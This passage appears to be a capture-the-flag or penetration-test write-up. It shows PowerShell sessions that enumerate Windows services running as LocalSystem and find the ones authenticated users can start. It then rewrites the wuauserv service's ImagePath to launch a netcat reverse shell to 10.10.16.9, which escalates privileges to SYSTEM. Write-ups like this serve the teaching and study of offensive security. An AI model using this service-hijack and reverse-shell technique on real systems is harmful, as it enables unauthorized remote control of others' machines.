```
PS HKLM:\SYSTEM\CurrentControlset\Services> $services = get-itemproperty -path HKLM:\SYSTEM\CurrentControlset\Services\*
$services = get-itemproperty -path HKLM:\SYSTEM\CurrentControlset\Services\*
PS HKLM:\SYSTEM\CurrentControlset\Services> $system_services = $services | where { $_.objectname -eq 'LocalSystem' -and $_.start -eq 3} 
$system_services = $services | where { $_.objectname -eq 'LocalSystem' -and $_.start -eq 3}
PS HKLM:\SYSTEM\CurrentControlset\Services> $system_services | select pschildname | measure-object
$system_services | select pschildname | measure-object


Count    : 129
Average  : 
Sum      : 
Maximum  : 
Minimum  : 
Property : 


```

- We need to check permissions for the services which we can start and stop
  - https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/
```
PS HKLM:\SYSTEM\CurrentControlset\Services> $service_names = $system_services.pschildname
$service_names = $system_services.pschildname
PS HKLM:\SYSTEM\CurrentControlset\Services> foreach ($service in $service_names) { $sddl = (cmd.exe /c sc.exe sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { write-host $service; } }
foreach ($service in $service_names) { $sddl = (cmd.exe /c sc.exe sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { write-host $service; } }
ConsentUxUserSvc
DevicesFlowUserSvc
DoSvc
PimIndexMaintenanceSvc
PrintWorkflowUserSvc
seclogon
SstpSvc
UnistoreSvc
UserDataSvc
WaaSMedicSvc
WinHttpAutoProxySvc
wuauserv
```
- We can start the a few services
  - Let's start from the bottom
  - We will use `set-itemproperty`

```
PS C:\programdata> set-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv -name imagepath -value "c:\programdata\nc.exe 10.10.16.9 8888 -e cmd"
set-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv -name imagepath -value "c:\programdata\nc.exe 10.10.16.9 8888 -e cmd"
PS C:\programdata> get-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv
get-itemproperty -path HKLM:\system\currentcontrolset\services\wuauserv


DependOnService     : {rpcss}
Description         : @%systemroot%\system32\wuaueng.dll,-106
DisplayName         : @%systemroot%\system32\wuaueng.dll,-105
ErrorControl        : 1
FailureActions      : {128, 81, 1, 0...}
ImagePath           : c:\programdata\nc.exe 10.10.16.9 8888 -e cmd
ObjectName          : LocalSystem
RequiredPrivileges  : {SeAuditPrivilege, SeCreateGlobalPrivilege, SeCreatePageFilePrivilege, SeTcbPrivilege...}
```